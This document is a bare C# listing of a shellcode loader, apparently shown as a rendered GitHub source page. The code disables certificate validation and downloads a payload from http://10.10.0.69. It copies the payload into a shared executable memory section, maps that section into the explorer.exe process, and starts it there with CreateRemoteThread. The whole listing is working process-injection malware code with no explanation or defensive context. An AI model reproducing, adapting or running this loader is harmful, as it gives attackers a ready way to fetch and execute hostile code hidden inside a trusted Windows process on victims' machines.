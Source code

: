 ```cs
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetCurrentProcess();

        [DllImport("ntdll.dll")]
        public static extern UInt32 NtCreateSection(ref IntPtr section, UInt32 desiredAccess, IntPtr pAttrs, ref long MaxSize, uint pageProt, uint allocationAttribs, IntPtr hFile);

        [DllImport("ntdll.dll")]
        public static extern UInt32 NtMapViewOfSection(IntPtr SectionHandle, IntPtr ProcessHandle, ref IntPtr BaseAddress, IntPtr ZeroBits, IntPtr CommitSize, ref long SectionOffset, ref long ViewSize, uint InheritDisposition, uint AllocationType, uint Win32Protect);

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        static async Task Main(string[] args)
        {
            byte[] buf;

            using (var handler = new HttpClientHandler())
            {
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    buf = await client.GetByteArrayAsync("http://10.10.0.69/download/file.ext");
                }
            }

            long buffer_size = buf.Length;
            IntPtr ptr_section_handle = IntPtr.Zero;
            UInt32 create_section_status = NtCreateSection(ref ptr_section_handle, 0xe, IntPtr.Zero, ref buffer_size, 0x40, 0x08000000, IntPtr.Zero);
            long local_section_offset = 0;
            IntPtr ptr_local_section_addr = IntPtr.Zero;
            UInt32 local_map_view_status = NtMapViewOfSection(ptr_section_handle, GetCurrentProcess(), ref ptr_local_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x04);
            Marshal.Copy(buf, 0, ptr_local_section_addr, buf.Length);
            var process = Process.GetProcessesByName("explorer")[0];
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, process.Id);
            IntPtr ptr_remote_section_addr = IntPtr.Zero;
            UInt32 remote_map_view_status = NtMapViewOfSection(ptr_section_handle, hProcess, ref ptr_remote_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x20);
            NtUnmapViewOfSection(GetCurrentProcess(), ptr_local_section_addr);
            NtClose(ptr_section_handle);
            CreateRemoteThread(hProcess, IntPtr.Zero, 0, ptr_remote_section_addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```